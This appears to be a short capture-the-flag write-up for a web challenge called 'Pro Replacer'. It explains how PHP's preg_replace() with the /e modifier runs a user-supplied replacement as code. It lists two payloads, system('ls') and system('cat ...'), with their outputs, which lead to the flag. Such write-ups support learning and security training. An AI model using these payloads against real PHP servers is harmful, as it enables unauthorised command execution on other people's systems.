 # Name: Web: Exotic Attacks: Pro Replacer

## Vulnerability

Use of `preg_replace()` function in PHP 5.5 that leads to command injection.

## Exploit

The server executes the `preg_replace()` function with unsanitized parameters from the user.

If you use the `/e` modifier at the end of the regex, the next of the command will be treated as PHP code.
In this way you can execute shell commands.

**Payload 1**

Needle: `m/e`

Replacement: `system('ls')`

Haystack: `m`


Output: `index.php wRtu3ND38n8RNgez`

**Payload 2**

Needle: `m/e`

Replacement: `system('cat wRtu3ND38n8RNgez')`

Haystack: `m`


Output: the flag

Exploit in `../solution/solution.sh`.
